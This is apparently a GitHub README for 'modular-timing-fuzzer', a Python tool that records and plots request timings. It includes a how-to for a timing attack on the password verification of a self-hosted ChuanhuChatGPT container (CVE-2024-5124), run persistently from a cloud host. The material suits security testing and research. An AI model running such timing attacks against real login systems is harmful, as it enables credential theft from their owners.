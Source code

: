 ## I Tutorials:

# I.1/ Build modular-timing-fuzzer

Install dependencies

```bash
virtualenv -p python3 venv3 ;
source venv3/bin/activate &&

pip install argparse requests matplotlib scipy pandas
```

Then run:

```bash
python3 -m pip install build && 
python3 -m build &&
python3 -m pip install -e . &&
python3 -m pip install dist/modular_time_fuzzer_GOGO-0.0.1-py3-none-any.whl --force-reinstall
```

# I.2/ Install From Pypi

Run simply:

```bash
pip install modular-time-fuzzer
```


# I.3/ Usage

`measure` command line permits to choose inputs that will be recorded to the database.
`analyze` command line permits to represent the data collected to a picture graph.

```bash
measure -r 10 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
```

## II How-to:

# II.1/ developping timing attack against the password verification of Chuanchuangpt (CVE-2024-5124) using a cloud service in background

# II.1.1/ Deploy victim server:

# Install docker

```bash
# Install packages required for the installation

sudo apt-get update
sudo apt install --yes ca-certificates curl
sudo install -m 0755 -d /etc/apt/keyrings
sudo curl -fsSL https://download.docker.com/linux/debian/gpg -o /etc/apt/keyrings/docker.asc
sudo chmod a+r /etc/apt/keyrings/docker.asc

# Add the repository to Apt sources:

echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/debian \
  $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
sudo apt-get update
# Download GPG key and store repository in the system

curl -fsSL https://download.docker.com/linux/debian/gpg | gpg --dearmor -o /usr/share/keyrings/docker.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" |tee /etc/apt/sources.list.d/docker.list > /dev/null 
apt update 

# Install Docker packages

sudo apt install --yes docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin
```

# Run victim server

```bash
export JSON='{
    "users": [["openai", "isCloseAi"]]
}' ;

export DOCKER_CMD="apt update && apt install --yes git && pip install itsdangerous gradio && echo '${JSON}' > config.json && sed -i 's/share=share/share=True/g' ChuanhuChatbot.py && python3 -u ChuanhuChatbot.py 2>&1 | tee /var/log/application.log"

export DOCKER_RUN='sudo docker run -e language=en_US -it tuchuanhuhuhu/chuanhuchatgpt:20240310 /bin/bash -c "${DOCKER_CMD}"'

tmux new-session -d -s persistent_server "${DOCKER_RUN}"
tmux attach -t persistent_server
```

## II.1.2/ Attack the victim server

If you want to run these two scripts

```bash
measure -r 1000 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
```

On a cloud backend to ensure it will never exit, install previously mentionned dependencies and run:

```bash
tmux new-session -d -s persistent_session "source ./venv3/bin/activate && rm -Rf mkdir tmpdir/ && mkdir tmpdir/ ; measure -r 1000 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z 'out.sqlite' && analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z 'out.sqlite'"
tmux attach -t persistent_session
```

# III/ API reference for developpers

# IV/ Why using a modular timing attack fuzzer?

Trough there are a lot of similar tool for recording request time such as `tlsfuzzer` or `timeinator`, none of them provide enough flexibility to let the user record it own timing with modularity.

`modular-timing-fuzzer` then has chosen to let the user to script the recording interface in a modular way and then use the output recorded to interpret in in a less but still modular way.

# IV.1 / attacks against passwords authentication with unsecure crypto comparison.

# IV.2 / attacks against assymetric encryption algorithms.

